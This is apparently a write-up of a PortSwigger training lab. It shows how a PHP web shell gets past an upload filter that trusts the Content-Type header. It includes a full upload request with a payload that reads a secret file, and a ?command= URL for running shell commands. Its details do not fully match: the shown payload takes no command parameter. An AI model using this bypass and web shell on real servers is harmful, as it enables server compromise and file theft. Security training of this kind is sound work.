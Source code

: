 ## Lab Description: Web shell upload via Content-Type restriction bypas 

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/2acd0384-5eb8-4bbb-89d3-39fa6d909f45)

## Solution:  

One way that websites may attempt to validate file uploads is to check that this input-specific Content-Type header matches an expected MIME type. If the server is only expecting image files, for example, it may only allow types like image/jpeg and image/png.
Problems can arise when the value of this header is implicitly trusted by the server.,if no further validation is performed to check whether the contents of the file actually match the supposed MIME type.

Log in as wiener & we will be presented with a page to update email and also to upload an avatar.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/381ce4ab-a80f-44ac-ac2b-8cf1112a2e13)

When we upload .jpg file we get No error and successfully file is uploaded

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b40adc98-ea75-4c94-b9a6-e035c67399c5)

When we upload a .php file with the payload , we get this response stating that the application accepts only .jpeg files.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/0b61f421-e3ed-4e78-99c5-3118128af04a)

```

POST /my-account/avatar HTTP/2
Host: 0a3000a9037af72880157631004c00da.web-security-academy.net
Cookie: session=EFoobh8j7a93NMehMgQ8vxBRFnfw9pLo
Content-Length: 474
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="121", "Not A(Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a3000a9037af72880157631004c00da.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryneB09X1nkJjKArg7
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a3000a9037af72880157631004c00da.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i

------WebKitFormBoundaryneB09X1nkJjKArg7
Content-Disposition: form-data; name="avatar"; filename="virus.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundaryneB09X1nkJjKArg7
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryneB09X1nkJjKArg7
Content-Disposition: form-data; name="csrf"

wfVqoyKHLdFDWotDbQJDypTlytmUQgEt
------WebKitFormBoundaryneB09X1nkJjKArg7--
```
So let's change the Content-Type: application/x-php to Content-Type: image/jpeg & see what happens.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/5055472c-243a-4c70-ac60-d74438c7110e)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/e92effe7-077b-484e-bcb6-a5ff551bc895)

Now the file is successfully uploaded.

Now we can run comands on the server by using the ?command= parameter. ie - `/files/avatars/file.php?command=cat /home/carlos/secret`

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/62a7f80e-2950-4ab6-80d6-45e69c4d28f0)

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/2cec0a53-3ccc-4212-9f47-c8af84976ce0)





